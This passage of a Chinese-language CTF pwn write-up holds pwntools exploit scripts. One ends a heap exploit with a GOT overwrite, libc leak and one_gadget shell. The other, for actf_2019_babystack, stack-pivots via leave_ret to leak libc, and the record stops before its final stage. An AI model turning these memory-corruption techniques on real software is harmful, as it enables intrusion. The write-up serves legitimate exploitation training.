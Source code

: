 ```python  
payload += p64(0x30) + p64(0x90)

edit(2,len(payload),payload)
free(3)
p.recvuntil('OK\n')
payload = p64(0)*2 + p64(free_got) + p64(puts_got) + p64(atoi_got) 
edit(2,len(payload),payload)
gdb.attach(p)
payload = p64(puts_plt)
edit(1,len(payload),payload)
#gdb.attach(p)
free(2)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('puts addr: '+hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts']
log.success('libc_base: '+hex(libc_base))
one_gadget = libc_base + 0x4526a
payload = p64(one_gadget)
edit(3,len(payload),payload)
p.interactive()
```  
## 0x12  actf_2019_babystack  
栈迁移，溢出只能控制到eip，然后题中会泄露栈地址，我们用泄露出的栈地址吧rbp覆盖掉，然后rip指向leave_ret，栈就会迁移到上面read读进去的地方，然后在read读进去的地方执行我们的rop链
```Python  
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=remote("node3.buuoj.cn",25727)
p=process("./ACTF_2019_babystack")
elf=ELF("./ACTF_2019_babystack")
libc=ELF("/home/N0vice/Desktop/BUUCTF/libc-2.27.so")
#libc=elf.libc
leave_ret = 0x0000000000400a18
pop_rdi_ret = 0x0000000000400ad3
p.recvuntil("?\n")
p.sendline("224")
p.recvuntil('saved at')
p.recvuntil("0x")
stack_addr = int(p.recvline(),16)
#stack_addr = int((p.recvline_contains('0x7f')),16)
log.success("stack_addr==>" + hex(stack_addr))

payload = p64(0) + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x4008F6) # main_addr
payload += "a"*(0xD0 - len(payload))
payload += p64(stack_addr) + p64(leave_ret)
p.recvuntil('>')
p.send(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) # leak puts_addr
libc_base = puts_addr - libc.sym['puts']
log.success("puts_addr==>" + hex(puts_addr))

p.recvuntil("?\n")
p.sendline("224")
p.recvuntil('saved at')
p.recvuntil("0x")
stack_addr = int(p.recvline(),16)
log.success("stack_addr==>" + hex(stack_addr))

```